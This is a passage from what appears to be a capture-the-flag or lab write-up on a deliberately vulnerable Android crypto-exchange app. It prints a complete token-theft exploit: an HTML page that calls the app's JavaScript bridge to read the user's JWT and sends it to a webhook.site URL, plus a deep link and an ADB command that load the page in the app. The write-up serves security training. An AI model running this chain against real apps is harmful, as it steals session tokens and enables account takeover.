 To see the *incoming requests without spinning up a backend*, I’ll leverage https://webhook.site.
It gives you a *unique URL that logs every hit in real-time*, perfect for **verifying that the JWT actually leaves the device**.

If you pay attention in the code, you can notice the following URL:
- https://mhl-cex-auth-worker.arnotstacc.workers.dev/promo/0
- https://mhl-cex-auth-worker.arnotstacc.workers.dev/promo/1
- https://mhl-cex-auth-worker.arnotstacc.workers.dev/help

In the **source code** we can see that these URLs loads this script:
```html
<script src="https://cdn.jsdelivr.net/npm/dsbridge/dist/dsbridge.js"></script>
```

Our `.html` file for stolen the token:
```html
<!doctype html>
<meta charset="utf-8">

<!-- load dsbridge -->
<script src="https://cdn.jsdelivr.net/npm/dsbridge@3.1.4/dist/dsbridge.min.js"></script>

<script>
// change the webhook.site for your webhook.site
function send(tok){
  fetch("https://webhook.site/7e858a92-500a-44ae-88b5-8b9fc941e063?tok="+encodeURIComponent(tok));
}

function unwrap(res){
  if(typeof res==="string"){ try{ res=JSON.parse(res);}catch(e){} }
  return res && res.data && res.data.authtoken;
}

// bridge ready and ask for token
document.addEventListener("DOMContentLoaded",()=>{
  const bridge = window.dsBridge || window._dsbridge;
  if(!bridge || !bridge.call){ return; }

// getUserAuth
  bridge.call("getUserAuth", {}, function(resp){
      const jwt = unwrap(resp);
      if(jwt){ send(jwt); }
  });
});
</script>
```

With the **user logged into the application**, you can go to the browser and *paste the following URL*:
- `mhlcrypto://showPage?url=https://lautarovculic.com/tokenBleed.html`
*Change the domain and `.html` name.*

Or, you can develop an *malicious application* that **send the intent**.
Or just, with this **ADB** command:
```bash
adb shell am start \
  -a android.intent.action.VIEW \
  -d "mhlcrypto://showPage?url=https://lautarovculic.com/tokenBleed.html" \
  com.mobilehackinglab.exchange/.SplashActivity
```
